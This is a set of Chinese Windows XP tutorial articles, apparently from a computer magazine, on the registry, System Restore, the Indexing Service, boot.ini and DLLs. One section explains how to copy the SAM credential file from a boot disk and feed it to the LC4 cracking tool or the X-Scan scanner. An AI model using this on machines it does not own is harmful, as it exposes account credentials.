Windows 98 的注册表有6个根键，而Windows 2000/XP/2003系统的根键数目则是5，但这些根键中只有[HKEY_LOCAL_MACHINE]和[HKEY_USERS]是真正的注册表键，其他几个根键都是从这两个根键的某个分支映射出来的，相当于这两个根键深层分支的一个快捷方式或者别名，主要是为了方便用户操作。

#### (1)[HKEY_LOCAL_MACHINE]

这个根键存储的是安装在当前计算机上的硬件和软件配置信息，比如硬件设备的驱动程序、特定软件设置和Windows系统安全配置等数据。这些信息对当前系统中的所有用户均保持一致。这个根键下面还有5个重要的主键，其中Software和System最为关键，平时对系统进行相关调整大多集中在这两个键上面。

- ①Software子键：保存与这台电脑中安装的应用程序相关的设置，许多应用程序使用该键保存特定设置。关于Windows的许多设置都存在于[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion]中。
- ②System子键：在这里精确地确定了Windows所装载的设备驱动程序和服务，以及当Windows启动时所使用的各种参数（如在网络上的计算机名称和当前硬件配置文件）。

#### (2)[HKEY_USERS]

[HKEY_USERS]包含有电脑特定用户的配置数据，Windows在此根键下的一个子键中为登录该电脑的每个用户存储配置数据。如果电脑只有一个用户使用，那么所看到的就是单独一个子键，称为“.DEFAULT”。而[HKEY_USERS\S-1-5-21-1429920510-1905779617-2596133881-500]则是当前登录用户的配置数据，其中“S-1-5-21-1429920510-1905779617-2596133881-500”就是这个是目前登陆用户的SID，每一个网络上的用户都被域用户管理器分配了一个SID，每一个SID都是惟一的，所以它依赖于登录用户，其分支数据是从用户配置文件的Ntuser.dat文件调出的。

#### (3)改头换面我也认识你

前文提到只有[HKEY_LOCAL_MACHINE]和[HKEY_USERS]才是真正的根键。也就是说如果更改了其他别名分支中的某个键或键值，那么在[HKEY_LOCAL_MACHINE]和[HKEY_USERS]中也会出现相应更改，通常我们还可将它们称为“别名”，下面是这些“别名”的实际位置：

- ①[HKEY_CLASSES_ROOT]：[HKEY_LOCAL_MACHINE\software\CLASSES]的别名，包含有文件类型和程序之间的关联。
- ②[HKEY_CURRENT_USER]：[HKEY_USERS]一个分支的别名，该分支包含有当前登录用户的配置数据，如果是单一用户[HKEY_CURRENT_USER]则指向[HKEY_USERS\.DEFAULT]。
- ③[HKEY_CURRENT_CONFIG]：[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Hardware Profiles\Current]的别名，其中“ControlSet001”还有可能是“ControlSet000”、“ControlSet002”等，它包含电脑的当前硬件配置。

实例：轻松判断[HKEY_CLASSES_ROOT]就是[HKEY_LOCAL_MACHINE\SOFTWARE\Classes]的别名

首先，我们要知道[HKEY_CLASSES_ROOT\*]和[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\*]是管理鼠标右键菜单的注册表项，比如安装WinRAR后鼠标右键通常会多出几个压缩或解压的选项，其实就是通过这个注册表键完成的。好了，现在我们一起来看看这两个键到底有什么关系吧。

第一步：在“开始→运行”中输入regedit.exe打开“注册表编辑器”。分别定位到[HKEY_CLASSES_ROOT\*]和[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\*]分支，然后将这两个分支导出并分别保存为1.reg和2.reg。

第二步：将[HKEY_CLASSES_ROOT\*]分支删除，然后定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\*]分支并尝试着打开这个注册表分支时，系统提示“无法打开*：打开项时出错”，这时按F5刷新注册表后，发现[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\*]已经不见了，说明已经被删除。

第三步：注册表键被删除，当然就要恢复到原来的状态啦，双击刚才所导出的2.reg将文件合并到注册表中即可。返回到开始我们执行删除命令的[HKEY_CLASSES_ROOT\*]键，这时发现它已经被恢复了。也就是说[HKEY_CLASSES_ROOT]和[HKEY_LOCAL_MACHINE\SOFTWARE\Classes]存储的内容是一致的。

第四步：用同样的方法，我们就可以轻易地判断其他“别名”的真正注册表位置了，不过需要注意的一点就是在删除前必须确认删除该键不会导致系统崩溃。

#### 小提示

上面的描述方法较为规范，平时我们还习惯将“子键”称为“分支”，而将“键位项”简称为“项”，这些“称谓”没有本质差别，只是叫法习惯不同罢了。

附表1 [HKEY_USERS]部分重要分支说明
| 分支 | 作用 |
| :--- | :--- |
| .DEFAULT\AppEvents | 列出了事件响应、描述和各种系统功能的声音 |
| .DEFAULT\Console | 保存了MS-DOS窗口的选项、布局、屏幕颜色和字体设置 |
| .DEFAULT\Control Panel | 所有在控制面板里配置设置的信息全保存在这个键和它的子键中 |
| .DEFAULT\Environment | 保存了环境变量设置，特定的临时性文件的位置 |
| .DEFAULT\KeyboardLayout | 保存的是键盘布局设置，其中默认设置标准是美国传统键盘布局 |
| .DEFAULT\Software | 保存软件的安装设置，缺省用户只有微软生产的软件的设置 |
| SID\Network | 所有连接到其他系统的映射配置 |
| SID\Printers | 所有安装、共享和连接的打印机配置 |
| SID\Software | 单独的用户扩展，基于为用户或者被用户安装的其他软件。 |

附表2
| 根键 | 含义 |
| :--- | :--- |
| [HKEY_CLASSES_ROOT] | 配置单元包含的子项，列出了当前已在计算机上注册的所有COM服务器和与应用程序相关联的所有文件扩展名 |
| [HKEY_CURRENT_USER] | 保存着当前登录到由这个注册表服务的计算机上的用户的配置文件，其子项包含着环境变量、个人程序组、桌面设置、网络连接、打印机和应用程序首选项 |
| [HKEY_LOCAL_MACHINE] | 保存操作系统及硬件相关信息的配置单元，是一个公共配置信息，与具体用户无关 |
| [HKEY_USERS] | 包含的子项，含有当前计算机上所有的用户配置文件 |
| [HKEY_CURRENT_CONFIG] | 包含的子项，列出了计算机当前会话的所有硬件配置信息 |
| [HKEY_DYN_DATA] | 包含系统硬件的当前状态，也包含了那些需要更新和检索的数据，此键只存在于Windows 98/ME系统 |

### 修改系统用户名的误区

### 1. 用户名被改，目录名也会改？

很多人认为在系统磁盘中会建立与用户名相对应的文件夹，也就是说如果我们将系统安装在C盘，可以到C盘中找到Documents and Settings目录，该目录中会为每个用户建立相应的用户文件夹（见图）。大家可以看到系统为administrator、owner、guest等用户单独创建了目录。每当我们在系统中建立新账户后都会在这里创建新的文件夹。所以当系统的administrator用户名修改为其他名字时我们也可以通过启动盘进入C盘Documents and Settings目录查看相应的文件夹名了解修改后的用户名。

事实真的如此吗？我们实际操作一下就能一目了然。在桌面的“我的电脑”上右击并选择“管理”，然后定位到“本地用户和组”。右击用户administrator选择“重命名”，然后将其修改为softer。按照上面的说法应该在C盘Documents and Settings下看到softer目录，然而事实并非如此，我们打开该目录会发现呈现在我们眼前的和图一模一样。用户名虽然变为softer，但用户的文件夹仍然是administrator。

### 2. 缘何如此？

实际上这种情况只发生在建立用户后又改名。当我们建立一个新用户后系统还是会在Documents and Settings目录产生和该账号名一样的文件夹的，但是该文件夹一经创建无论你怎么修改该用户的用户名，文件夹名也不会变化，一直延续初始创建的名称。那么上文中朋友遇到的问题如何解决呢？在不知道其他管理员账户的情况下可以采用以下两种方法。

- ①扫描器扫描法：由于我们知道用户的密码，不知道用户名。所以可以使用诸如X-Scan的扫描器挂上自己配置的字典进行扫描。由于系统启动用户登录到桌面前已经连接到了网络，所以找到局域网中其他机器对该计算机扫描即可得出修改后的用户名。
- ②LC4破解法：如果系统分区是FAT32我们可以用Windows 98启动盘启动电脑，到C:\Windows\System32\Config中找到SAM文件，将其复制到软盘上。然后找到另外一台计算机安装LC4这个专业的暴力破解密码工具，LC4会根据你复制的SAM文件快速列出所有用户名，这样我们就可以用列出的用户名和已知的密码正常登录系统了。

#### 小提示

由于我们已经知道了用户密码，仅仅不知道用户名。所以并不必使用LC4暴力破解密码，只需要列出用户名即可。

建议大家以后遇到实际问题时不要想当然，一定要自己动手操作一下。很多误区都是因为想当然引发的。永远记住——实践是检验真理的惟一标准。

（北京 阮征）

# 折腾你的月光宝盒——玩转系统还原高级设置

Windows XP的“系统还原”组件素有“月光宝盒”的美名，可以帮助我们轻松返回先前的正常状态。本文将介绍与系统还原相关的一些高级设置技巧，以帮助广大读者更好地使用它。

（本文假设Windows XP安装在C盘，可根据实际情况修改）

# 系统还原与还原点

在Windows的使用过程中，用户经常会因为安装了某些与系统不兼容的程序（包括驱动程序）而导致系统出现故障，严重的甚至可能导致系统崩溃。使用系统自带的系统还原功能对硬盘数据进行监控，在必要时调取保存的数据镜像进行恢复，就能保证系统的稳定性同时又兼顾了数据的完整性。

还原点相当于给系统拍的一个快照，其中保存了当前系统的状态。

系统在这些时候会自动建立还原点:

- 1. 首次启动系统时。
- 2. 日历时间间隔24小时。
- 3. 使用InstallShield和Windows XP Professional安装程序等最新的安装程序时。
- 4. 安装自动下载的系统更新前。
- 5. 安装未经Windows数字签名的驱动程序时。
- 6. 使用“备份实用程序”进行恢复时。

# 月光宝盒的记忆功能:保留特定还原点

有时我们希望能保留某个特定还原点，例如在刚刚安装完Windows XP时，新建了一个还原点，希望能长时间保留，以便今后需要时可以恢复到初始安装状态。但由于以下两个原因，较早建立的还原点可能会删除。

①还原点的默认生命周期是90天，过期后系统将会自动删除该还原点。还原点的生命周期由注册表项[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore]下的RPLifeInterval键值决定。

②每个分区的还原点都有一个磁盘配额，默认不超过所在分区容量的12%（最小不低于200MB），较早的还原点可能会被清除，以便不超出指定的磁盘配额。

针对这两种原因，我们给出两套解决方案:

### 1. 巧设权限让还原点赖着不走

第一步:以管理员账户登录，在“文件夹选项”的“查看”选项卡中去除“隐藏受保护的系统文件(推荐)”和“简单文件共享”的勾选，同时勾选“显示所有文件和文件夹”。

第二步:在“资源管理器”中右击“C:\System Volume Information”文件夹，选择“属性”。在弹出对话框中切换到“安全”选项卡，点击“添加”按钮，然后输入当前的登录账户名称(本例是Admin)并确定，然后指定Admin账户拥有“完全控制”权限。

第三步:进入“系统还原”组件的工作目录C:\System Volume Information\_restore{GUID}，此处的{GUID}每个人都不同，笔者的目录是C:\System Volume Information\_restore{D8DCAF8D-2B7D-4FCA-B76F-DF5900477AAE}。在该目录下会有类似RPx的文件夹。打开“系统还原”程序窗口，然后参照这些RPx文件夹的创建时间来确定其对应的还原点。如图1中的RP1文件夹对应“Install Windows XP”还原点，其建立时间是2005年6月17日12:37。



第四步:右击RP1文件夹选择“属性”，在弹出对话框中切换到“安全”选项卡，点击“高级”按钮，在弹出窗口的“权限”选项卡的“权限项目”列表框中选中任一账户，点击“编辑”按钮，在“权限”列表框中确认勾选了“拒绝”列的“删除子文件夹和文件”和“删除”这两个复选框，点击“确定”按钮(见图2)，用同样方法对其他账户进行权限设置。



第五步:在RP1的“高级安全设置”对话框的“权限”选项卡中确认勾选“用在此显示的可以应用到子对象的项目代替所有子对象的权限项目”。

### 2. 修改还原点默认生命周期

打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore]，修改RPLifeInterval的键值(见图3)，该值默认是76a700(即十进制的7776000，单位是秒)，可根据每天86400秒来确定需要保留的天数。但用注册表的方法只能修改所有还原点的生命周期，无法针对特定还原点。



# 小提示

注册表的该位置下除了RPLifeInterval之外，还有其他有用的参数供设置。

- ①RPSessionInterval:设置开机多少秒以后自动创建还原点，默认为0(即禁用该特性)。如设置为3600(十进制)即为开机一小时后自动创建系统还原点。
- ②CompressionBurst:设置空闲多少秒以后，自动压缩还原点。

更详细的内容，可参考http://support.microsoft.com/kb/295659/zh-cn。

# 谁能穿梭时空:指定不被还原的文件/目录

默认情况下“系统还原”会监控桌面上的所有文件，一旦恢复到先前建立的还原点，则桌面上新建的文件会全部丢失，非常麻烦。如何指定“系统还原”不要监控桌面上的文件？

在C:\WINDOWS\system32\Restore文件夹下存放了“系统还原”的配置文件filelist.xml(具有只读、系统和隐藏属性)。该配置文件定义了“系统还原”监控(或排除)的文件和目录，我们可以修改该XML文件，让系统还原不再监控桌面。

第一步:备份filelist.xml，然后去除filelist.xml文件“只读”属性，并用“记事本”打开。

第二步:定位到以下位置:

```
<DIRECTORIES>
<Exclude>
<REC>%cookies%</REC>
<REC>%favorites%</REC>
<REC>%History%</REC>
......
</Exclude>
</DIRECTORIES>
```

第三步:该<Exclude>小节定义了“系统还原”排除的目录(不监控)。对于中文版的Windows XP，在修改该xml文件之前，我们需要将文件夹“C:\Documents and Settings\UserName\桌面”改名为“C:\Documents and Settings\UserName\Desktop”(这里的UserName要用当前登录用户名代替，本例是admin)。这是因为filelist.xml文件不支持中文，强行使用可能会导致系统还原服务停止。

第四步:在<Exclude>小节里添加以下的语句:

```
<REC>%USERPROFILE%\Desktop<REC>
```

保存该xml，并恢复其“只读”属性即可。用同样方法还可以阻止“系统还原”监控其他文件夹。

# 月光宝盒打不开了:无法进入Windows也能恢复

- 1. 尝试进入“安全模式”，然后再进行恢复。
- 2. 如果无法进入“安全模式”，则可以尝试进入“带命令行的安全模式”，运行以下命令尝试恢复:%systemroot%\system32\restore\rstrui.exe。
- 3. 如果无法进入“带命令行的安全模式”，还可以借助第三方工具软件进行恢复。这里推荐使用系统维护光盘ERD Commander 2005。该工具类似于一个光盘版的Windows XP，用该维护光盘引导计算机后，并选择需要恢复的Windows，即可进入ERD Commander的桌面，然后点击“Start→System Tools→System Restore”，打开“系统还原”窗口后即可恢复到先前的还原点，可惜的是该功能不支持中文名称的还原点(见图4)。



# 月光宝盒丢了:系统还原功能失效

系统还原功能出现故障时，可以根据下面的方法依次进行排错:

### 1. 参考微软官方的技术支持进行恢复

使用:http://support.microsoft.com/kb/300044/zh-cn

### 2. 重命名“系统还原”的工作目录

如果使用“禁用再重新启用”的方法后，“系统还原”仍无法恢复，则为当前用户分配每个盘符根目录下的“System Volume Information”文件夹的“完全控制”权限，然后将这些文件夹重命名。

### 3. 重装“系统还原”功能

在“运行”对话框中输入“C:\WINDOWS\inf”回车，在打开的文件夹中右击sr.inf，选择“安装”，然后插入与当前系统的Service Pack版本一致的Windows XP安装光盘，根据屏幕提示进行操作即可。

# 小提示

如果系统是Windows XP SP2，但Windows XP安装光盘不带SP2，则可使用以下方法。
(1)确认以下文件夹C:\WINDOWS\ServicePackFiles是否存在并且非空(大约为400MB左右)。
(2)如果该文件夹不存在，请检查注册表中[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Setup]下的键值ServicePackSourcePath，以确认是否将该文件夹转移到了其他路径，并记录该路径。
(3)在“运行”对话框中输入“C:\WINDOWS\inf”回车，在打开的文件夹中右击sr.inf选择“安装”，然后插入不带SP2的Windows XP安装光盘。
(4)系统提示插入Windows XP SP2安装光盘时，点击“浏览”，定位到C:\WINDOWS\ServicePackFiles\i386 (如果该文件夹被转移，请定位到相应的路径)，点击“确定”(见图5)。
(5)系统提示插入Windows XP安装光盘(注意这次不是Windows XP SP2)，点击“浏览”，定位到安装光盘下的\i386文件夹，点击“确定”按钮。
(6)安装结束后根据提示重启电脑，此时再尝试打开“系统还原”程序，检查是否恢复正常。



（盆盆）

# 挑战Windows搜索速度极限

在Windows中用系统自带的搜索功能查找文件，速度并不尽如人意。很多朋友因此选择了Google桌面搜索(英文名“Google Desktop Search”，中文版下载地址:http://desktop.google.com/zh/)、Baidu硬盘搜索(下载地址:http://disk.baidu.com/)。很多媒体在介绍这类软件时都提到“由于Windows自带的搜索功能速度非常慢……”，微软出品真的如此不堪吗？

### 我将上下而求索：索引服务原理

### 1. 从合订本的索引说起

不知大家有没有仔细研究过CFan的合订本，在我们寻找特定文章时，除了查找合订本开头的目录外，还可以通过合订本最后的索引来查找文章中包含的关键字。这就好比Windows中的文件，如果要让你记住某个文件的文件名是相当困难的，一般搜索文件都是查找其中包含的关键字。而硬盘文件索引就是通过特定的索引程序(服务)对硬盘中特定的文件(可以提取出关键字内容的文件类型，如TXT)进行关键字的记录，将每个文件的前N个字节记录在索引数据库中，并按照各种方式(比如按字母排序)进行排序，这样在搜索文件时就能从索引数据库中快速找出对应的文件。

### 2. Windows索引服务工作手记

在Windows中，索引是一项服务(Indexing Service)，这项服务调用多种被称为“文档筛选器”的插件来读取Windows中的各类文档，然后对读取到的内容进行整理和分析，并写入索引数据库(见图1)。而应用程序(如Windows自带的搜索功能)可以通过索引服务开放的接口来进行查询，索引服务充当了中介的角色(见图2)。



### 3. 谁能够被索引

刚才说到索引服务是使用对应各种文件类型的文档筛选器读取文件来实现文件内容索引的，那么哪些文件能够被索引呢？

- ① HTML；② 文本；③ Microsoft Office 95 和更高版本；④ Internet 邮件和新闻(须安装“Internet 信息服务”)；⑤ 可以使用文档过滤器的其他任何文档。

除了系统中这些内置的文档筛选器之外，我们还可以安装第三方软件提供的筛选器，以便让索引服务支持更多的文件类型，比如安装Adobe Reader(原名:Acrobat Reader)中包含的筛选器就能让索引服务支持PDF文档。另外，安装最新版本的Office软件可以提高Word等文件的搜索准确性和效率。



# 给文件搜索加速：应用索引服务

### 1. 让索引服务跑起来

#### （1）使用索引服务的必要条件

要使用Windows系统中的索引服务，必须保证使用的操作系统版本为Windows 2000及以上版本。另外，系统中的Indexing Service服务(服务名:CiSvc)必须确认没有被设置为“禁用”。

#### （2）如何启用索引服务

以在Windows XP为例：点击“开始→搜索→文件或文件夹”，在弹出的搜索窗口左侧点击“改变首选项”，然后点击“使用制作索引服务(使本地搜索更快)”，提示“您要启用制作索引服务吗？”，选择“是的，启用制作索引服务”就能打开索引服务功能了。

# 小提示

> 什么是编录
编录是指索引服务中需要收录入索引数据库的一组文件集合，比如可以将D:\docs、E:\inf加入一个名为Works的编录。启用索引服务后，自动创建并启动了一个名为System的编录。

### 2. 让索引服务更听话

#### （1）两种方法禁止索引特定目录

有些目录中文件繁多，但并非经常使用，对此目录进行索引不但浪费时间而且还占用磁盘空间，如何才能排除这些目录呢？

- ① 仅用于NTFS分区：在“资源管理器”中右击特定文件/文件夹，选择“属性”，在弹出的属性窗口中选择“常规”选项卡，点击“高级”按钮，在弹出的“高级属性”窗口中去除“为了快速搜索，允许索引服务编制该文件(夹)的索引”的勾选。
- ② 适用于FAT和NTFS分区：在桌面上右击“我的电脑”，选择“管理”，在弹出的“计算机管理”窗口左侧依次展开“计算机管理(本地)→服务和应用程序→索引服务→System→目录”(此处假设启用的是默认的编录System，如果经过重新设置请进行相应修改)，然后在右侧窗格空白处右击，选择菜单“新建→目录”。在弹出的“添加目录”窗口的“路径”框中输入要禁止索引的目录位置(也可使用“浏览”按钮选择)，在“包括在索引中吗？”框中选择“否”，最后点击“确定”，该目录就不在索引之列了。

#### （2）只索引特定目录

很多朋友喜欢对硬盘中的特定文件进行集中保存，比如Word文件都保存在D:\docs目录中，这样就不希望使用系统默认的System编录(如果用上文中的方法排除其他目录，那工作量也太大了)。遇到此种情况可以考虑停止系统默认编录，再新建一个符合要求的新编录。

第一步：在“计算机管理”中，展开左侧的“计算机管理(本地)→服务与应用程序→索引服务”，右击其下的“System”项，选择菜单“所有任务→停止”。如果确认以后不再使用这个编录，可以右击“索引服务”选择“停止”，然后右击“System”项选择“删除”，在弹出的警告框中点击“是”。
第二步：右击“索引服务”，选择“新建→编录”，在弹出的“添加编录”窗口中的“名称”框中输入此编录的名称(如本例中使用“diy”)，“位置”框中则填写此编录的保存位置(也就是索引数据的保存位置)。
第三步：选择“diy→目录”，在右侧窗格中右击，选择“新建→目录”，参考上文中添加排除目录的方法添加目录，但“包括在索引中吗？”应选择“是”，在将此目录添加到编录后系统将自动完成该目录的完整扫描。按照此方法将需要索引的目录都添加到这个编录中。

#### （3）快速“认识”改动过的文件夹

在文件夹中的文件发生变化后，系统会自动对更改的部分进行重新扫描，可有时由于修改过于频繁，系统对某些更改没有及时重新扫描，我们可以在编录的“目录”列表中右击改动过的文件夹，选择“所有任务→重新扫描(增量)”，这样系统就只索引改动过的部分。

### 3. 让索引服务支持未知文件

在索引服务中，默认情况下只支持具备相应筛选器的文档类型，可是有很多文件，比如MSN的聊天记录(XML文件，其实也是文本)，我们可以让这些文件的搜索速度也快起来！

第一步：在“计算机管理”的索引相关分支中右击需要支持未知格式文档的编录(如刚才的“diy”)，选择“属性”。
第二步：在弹出的属性窗口中选择“生成”选项卡，去除“继续服务的以上设置”的勾选，然后勾选“含有未知扩展名的索引文件”，点击“确定”。如果要让所有的编录支持未知文档格式，可以右击“索引服务”选择“属性”并按相同方法设置。
第三步：现在设置并没有生效，需要右击刚才设置好的编录，选择“所有任务→停止”，再选择“所有任务→启动”，进入“目录”列表，依次右击各目录并选择“所有任务→重新扫描(完全)”。

### 4. 应该关注的问题

#### （1）何时应该停止索引服务

在使用数据备份工具(如Windows下的Ghost)或者杀毒软件的磁盘扫描时，应该暂时停止索引服务。因为这类工具在工作的时候会对文件进行锁定，而如果此时索引服务恰好也需要读取文件就会出现超时错误。

#### （2）选择FAT32还是NTFS

要使用索引服务实现文件搜索速度的最优化，建议使用NTFS格式。因为NTFS下索引数据库约为索引文件总量的15%，而如果使用FAT32则需要约30%。

（吃猫鼠）

# 多重系统，你所选的

如果你在一台电脑上安装过多个Windows系统，一定会记得启动时的操作系统选择菜单，在这台电脑上安装过的操作系统都会显示出来。那究竟是哪个文件在控制双系统的引导呢？它就是今天要介绍的boot.ini。

# 基础知识篇

### 1.他不是隐身人:boot.ini在哪里

从Windows NT开始，boot.ini就存在于系统中，它根据系统的规则记录了硬盘中可供引导的操作系统的名称及位置等，在启动电脑后，硬盘上的系统引导程序就会读取这个文件的数据，并根据其中记录显示操作系统选择菜单，在用户选择某项启动后，系统引导程序仍会读取boot.ini，根据用户所选择的项所在的位置启动操作系统。默认情况下，这个文件位于C盘根目录下，并且具有隐藏和只读的属性，所以在编辑boot.ini之前，先得在“文件夹选项”中去除“隐藏受保护的系统文件”的勾选，并选择“显示所有文件和文件夹”。

# 火速链接

如果在安装操作系统时没有按照先低后高的版本顺序，则有可能会导致启动文件丢失，可以参考本刊2005年第15期的《安装系统，不用先来后到》来加以解决。

### 2.专用编辑器:系统中的设置选项

如果对boot.ini的文件结构不太熟悉，建议不要轻易直接编辑这个文本文件(至少在看完这篇文章前)。可以先使用微软官方推荐的几种操作系统自带的选项设置来间接编辑。

- (1)启动与故障恢复:右击“我的电脑”，选择“属性”，在“高级”选项卡中点击“启动与故障恢复”框中的设置按钮，在弹出窗口中我们就能设置默认的操作系统(即显示菜单后如果不加选择，超时后自动选择启动的操作系统项)等选项了。
- (2)系统配置实用程序:Windows 2000没有自带这个工具，Windows XP的用户可以运行msconfig打开它，然后选择“BOOT.INI”选项卡，在其中有数个复选框，可以对系统启动时的默认参数进行设置(见图)。



# 功能分析篇

一个典型的boot.ini文件，格式应该是下面这个样子的:

```
[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi(X)disk(Y)rdisk(Z)partition(Q)\WINDOWS="Microsoft Windows XP Professional" /fastdetect
SCSI(X)disk(Y)rdisk(Z)partition(Q)\WIN98="Microsoft Windows 98" /fastdetect
```

可以看出整个文件分成两部分:[boot loader](引导装入器)和[Operating systems](操作系统)两大部分。

### 1.[boot loader]:引导装入器设置

(1)timeout 在这部分中定义了一个叫“timeout”的变量，也就是在显示操作系统选择菜单后多久用户还没有进行选择，才自动打开默认程序。默认是30秒，可以根据自己的需要修改，如设为0即不显示选择菜单。

(2)默认启动路径:default default=xxxx中记录了超出用户等待时间后，系统自动选择启动的操作系统文件所在的位置。上文中的default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS看起来够复杂的，究竟是什么意思呢？

其实这是一个ARC路径，所谓ARC，是一种在x86及RISC计算机上普遍应用的设备标识方法。用ARC来标识硬盘的典型例子是: component(X)disk(Y)rdisk(Z)partition(Q)。其中component可以设为multi和SCSI两种类型，multi是指一个非SCSI硬盘，反之，SCSI则是一个SCSI硬盘，序号X从0开始。而disk(0)，我们则可以比较简单地记住，对于multi类型硬盘，disk后的序号Y恒为0;而如果最前面的类型是SCSI，则rdisk后的序号Z恒为0。partition大家应该比较容易理解，是分区的意思，而其后的序号Q则和前几个序号不一样，Q是从1开始计算的，也就是说partition(1)是指第一个分区。

“default=multi(0)disk(0)rdisk(0)partition(1)”就是告诉系统引导程序，默认要启动的操作系统在一块非SCSI接口的序号为0的硬盘的第一个分区中。

### 2.[operating systems]:操作系统设置

在这一部分采用“ARC路径=”操作系统名称‘/启动参数’的方式列出已经安装的操作系统的名称及位置，“/fastdetect”这个启动参数的含义就是在启动时不检查串行口和并行口。

# 实战应用篇

在了解了boot.ini的基本工作原理和结构之后，就可以利用它为我们创造方便了！
注意:在编辑boot.ini前应先去除其“只读”属性，在修改结束后再改回来。

### 1.将“安全模式”加入启动菜单

Windows“安全模式”是系统中一个非常重要的部分，无论是有删不掉的文件，还是需要杀毒，或正常模式启动不了了，我们都会在开机时按住F8然后选择“安全模式”进入。正因为“安全模式”这么常用，所以可以将它加入到启动菜单中。

- 第一步:用“记事本”打开boot.ini，将[operating systems]下要启动其安全模式的系统项复制下来，如“multi(0)disk(0)rdisk(0)partition(1)\windows="Microsoft Windows XP professional"/Fastdetect”，并粘贴到这项之后，作为一个新的启动选择项。
- 第二步:运行msconfig，打开“系统配置实用程序”，在“BOOT.INI”选项卡中选中刚才添加的那项，并在下方的启动选项中勾选“/SAFEBOOT”。如果你使用的Windows 2000没有这个程序，也没有关系，直接在boot.ini中编辑，在刚才新加的那项最后空一格，加上“/safeboot:minimal”。
- 第三步:保存修改并重启后，看看启动菜单里多了什么？

### 2.卸载“故障恢复控制台”

系统出现故障进不去了怎么办？连“安全模式”都无法拯救我们，那就只有“故障恢复控制台”了。但在装了“故障恢复控制台”后才发现，这个程序并没有提供卸载功能，所以一旦安装就只有在每次启动时进入系统选择菜单了。不过在学会了boot.ini修改方法后，已经可以解决这一问题了。

在[operating systems]下找出“C:\CMDCONS\BOOTSECT.DAT="Microsoft Windows XP Recovery Console" /cmdcons”，将其删除，保存后重启即生效。

# 小提示

缩短用户选择等待时间 将timeout的值设小点，比如5，这样即使不选择也能进入默认的操作系统，也可以设为0跳过选择菜单。

### 3.boot.ini文件非法/启动菜单丢失

经常有读者问，为什么我的电脑一启动就报告说“BOOT.INI文件非法，正从C:\windows\启动”，这个问题一般出现在Windows 98和Windows 2000或Windows XP的双系统中，是由于boot.ini文件丢失或格式不正确造成的。同时，不少读者还会遇到Windows启动菜单丢失的故障(比如:安装了Windows 2000/XP后又安装Windows 98，导致无法启动Windows 2000/XP)。

首先请查看一下C盘根目录是否存在Boot.ini文件，如果有，请按照前面的介绍查看内容是否正确。如果没有，你可以选择用记事本重建，但这样比较麻烦，其实可以让Windows自行创建。

以Windows XP为例，使用安装光盘启动电脑，选择使用“故障控制台修复”，然后依次输入(假设启动盘为C盘):

```
fixmbr C:
fixboot C:
Bootcfg /add
```

控制台会扫描Windows安装，几秒钟后扫描完成，提示选择要添加的安装，选1，接着提示输入加载识别符，可输入:Microsoft Windows XP Professional，然后会提示输入OS加载选项，键入fastdetect后，键入:EXIT，重启电脑即可。进入系统后，把所有分区内带$的文件及文件夹全删掉。

# 小提示

Windows 2000恢复启动菜单的方法是，用安装光盘启动系统，在“安装程序”的界面中按下R键，选择“修复Windows 2000”，按R键选择“紧急修复过程”，然后按M键选择“手工修复”，接着使用上下箭头移动到“检查启动扇区”和“检查启动环境”，使用回车键选择，并取消“验证Windows 2000系统文件”的勾选，按下箭头选择“继续”，并按下回车键。在接下来的界面中按下L键，安装程序会检测到系统中所安装的Windows 2000并显示出来，按下回车键，安装程序会检测磁盘并进行修复，再次重启后，熟悉的启动菜单就回来了。

(沉睡的狮子)

# 动态链接库 Windows 的活动大陆

在Windows世界中，有无数块活动的大陆，它们都有一个共同的名字——动态链接库。现在就让我们走进这些神奇的活动大陆，找出它们隐藏已久的秘密吧！

# 初窥门径:Windows的基石

随便打开一个系统目录，一眼望去就能看到很多扩展名为DLL的文件，这些就是经常说的“动态链接库”，DLL是Dynamic Link Library(即“动态链接库”)的缩写。从Microsoft公司推出首个版本的Windows以来，动态链接库就一直是这个操作系统的基础。

### 1.看看DLL里有什么

与其用晦涩的专业术语来解释DLL是什么，不如先来看看DLL里有什么。DLL和EXE文件一样，其中包含的也是程序的二进制执行代码和程序所需的资源(比如图标、对话框、字符串等)，可是为什么要把代码放在DLL里面，而不是做成EXE呢？其实DLL中的代码是以API函数形式出现的，通俗地说，DLL中包含的程序代码都被做成了一个个小模块，应用程序通过按下所需DLL中特定的按钮，来调用DLL中这个按钮所代表的功能。在使用“记事本”等程序时，如果要保存文件或打开文件，就会弹出通用文件对话框，让我们选择文件位置。你可知道，这就是调用了系统底层DLL中的通用对话框界面。

### 2.系统中几个重要的DLL

Windows中有3个非常重要的底层DLL: Kernel32.dll、User32.dll、GDI32.dll。其中Kernel32.dll 顾名思义就是内核相关的功能，主要包含用于管理内存、进程和线程的函数；而User32.dll 中包含的则是用于执行用户界面任务的函数，比如把用户的鼠标点击操作传递给窗口，以便窗口根据用户的点击来执行预定的事件；GDI32.dll 的名称用了缩写，全称是Graphical Device Interface（图形设备接口），包含用于画图和显示文本的函数，比如要显示一个程序窗口，就调用了其中的函数来画这个窗口。

## 3. 为什么要用DLL

刚才在谈到这个问题的时候，我们只是解释了 DLL 将程序代码封装成函数的原理。为什么封装成函数，就能成为系统中大量使用 DLL 的理由呢？

+   ①扩展应用程序
    由于 DLL 能被应用程序动态载入内存。所以，应用程序可以在需要时才将 DLL 载入到内存中，这让程序的可维护性变得很高。比如 QQ 的视频功能需要升级，那么负责编写 QQ 的程序员不必将 QQ 所有代码都重写，只需将视频功能相关的 DLL 文件重写即可。

+   ②便于程序员合作
